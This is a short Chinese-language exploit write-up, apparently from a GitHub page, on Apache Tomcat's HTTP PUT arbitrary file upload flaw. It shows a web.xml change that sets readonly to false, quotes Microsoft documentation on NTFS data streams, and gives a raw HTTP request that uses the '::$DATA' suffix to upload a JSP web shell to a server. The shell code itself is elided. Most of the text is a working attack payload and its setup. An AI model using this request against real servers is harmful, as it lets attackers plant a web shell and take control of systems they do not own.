 - ### 0x01 开启HTTP PUT

修改Tomcat 7.0/conf/web.xml文件
添加readonly属性，使者readonly=false.
```xml
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
        <init-param>
            <param-name>readonly</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```
然后，重启Tomcat。

- ### 0x02 任意文件上传 · 姿势一
思路：参考微软MSDN上关于NTFS Streams的一段资料[https://msdn.microsoft.com/en-us/library/dn393272.aspx](https://msdn.microsoft.com/en-us/library/dn393272.aspx)
```
All files on an NTFS volume consist of at least one stream - the main stream – this is the normal, viewable file in which data is stored. The full name of a stream is of the form below.

    <filename>:<stream name>:<stream type>

The default data stream has no name. That is, the fully qualified name for the default stream for a file called "sample.txt" is "sample.txt::$DATA" since "sample.txt" is the name of the file and "$DATA" is the stream type.
```

payload ::
```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```